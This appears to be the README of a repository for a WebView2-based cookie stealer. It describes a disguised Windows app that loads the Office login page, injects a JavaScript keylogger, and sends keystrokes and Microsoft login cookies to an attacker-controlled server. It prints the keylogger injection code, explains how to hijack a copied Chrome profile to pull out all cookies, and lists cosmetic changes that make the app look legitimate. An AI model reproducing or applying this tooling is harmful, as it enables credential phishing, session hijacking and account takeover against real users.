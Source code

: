 # Blog Post

Please read <a href="https://mrd0x.com/attacking-with-webview2-applications/" target="_blank">this blog post</a> to get more information.

# Source Code

This code is a modified version of <a href="https://github.com/MicrosoftEdge/WebView2Samples" target="_blank">Microsoft's WebView2 Code</a>. The current code can be cleaned up and made much better.

# Demo

## Launch Example

<img src="https://github.com/trhacknon/WebView2-Cookie-Stealer/blob/main/launch.gif">

## Usage Example

<img src="https://github.com/trhacknon/WebView2-Cookie-Stealer/blob/main/demo2.gif">

# Usage

**Tested on Windows 10 & 11.**

When the binary is executed ```https://office.com/login``` is loaded up. A JavaScript keylogger is injected into every page and keystrokes are sent to ```http://127.0.0.1:8080```. Furthermore, upon the user successfully authenticating the cookies for ```login.microsoftonline.com``` are base64-encoded and sent to ```http://127.0.0.1:8080``` via an HTTP GET request.

# Modifying JavaScript

If you'd like to modify the JavaScript the code that needs to be changed is shown below at ```line 1096``` in ```AppWindow.cpp```.

```
coreWebView2->AddScriptToExecuteOnDocumentCreated(L"var link = \"http://127.0.0.1:8080/keylog?k=\";var l = \"\";document.onkeypress = function (e){l += e.key;var req = new XMLHttpRequest();req.open(\"GET\",link.concat(l), true);req.send();}", nullptr);
```

# Stealing Chrome Cookies

WebView2 allows you to launch with an existing User Data Folder (UDF) rather than creating a new one. The UDF contains all passwords, sessions, bookmarks etc. Chrome's UDF is located at ```C:\Users\<username>\AppData\Local\Google\Chrome\User Data```. We can simply tell WebView2 to start the instance using this profile and upon launch extract all cookies and transfer them to the attacker's server.

The only catch is that WebView2 looks for a folder called ```EBWebView``` instead of ```User Data``` (not sure why). Copy the ```User Data``` folder and rename it to ```EBWebView```.

## Required Changes

* At ```line 41``` in ```app.cpp```:
  * Change ```std::wstring userDataFolder(L"");``` to ```std::wstring userDataFolder(L"C:\\Path\\To\\Temp");```
  * The specified folder must contain the ```EBWebView``` folder which WebView2 will read from.

* At ```line 40``` in ```ScenarioCookieManagement.cpp```:
  * Change ```GetCookiesHelper(L"https://login.microsoftonline.com");``` to ```GetCookiesHelper(L"");```

When GetCookiesHelper is invoked without any website being provided it will extract all cookies.

**Note: This will not work with the current application if there is a large quantity of cookies because the application sends them using a GET Request which has a length limit.**

# Important Functions

If you'd like to make modifications to the binary you'll find information about the important functions below.

* AppStartPage.cpp - ```GetUri()``` function has the URL that is loaded upon binary execution.
* ScenarioCookieManagement.cpp - ```SendCookies()``` function contains the IP address and port where the cookies are sent.
* AppWindow.cpp - ```CallCookieFunction()``` function waits until the URL starts with ```https://www.office.com/?auth=``` and calls ```ScenarioCookieManagement::GetCookiesHelper(L"https://login.microsoftonline.com")```
* WebView2APISample.rc - Cosmetic changes
  * Remove the menu bar by setting all ```POPUP``` values to ```""```.
  * Change ```IDS_APP_TITLE``` and ```IDC_WEBVIEW2APISAMPLE```. This is the name of the application in the title bar.
  * Change ```IDI_WEBVIEW2APISAMPLE``` and ```IDI_WEBVIEW2APISAMPLE_INPRIVATE``` and ```IDI_SMALL```. These point to a ```.ico``` file which is the icon for this application.
* Toolbar.cpp - ```itemHeight``` must be set to 0 to remove the top menu. This is already taken care of in this code.
* AppWindow.cpp - ```LoadImage()``` should be commented out. This hides the blue splash image. This is already taken care of in this code.
* App.cpp - ```new AppWindow(creationModeId, WebViewCreateOption(), initialUri, userDataFolder, false);``` change the last param value to ```true```. This hides the toolbar. This is already taken care of in this code.
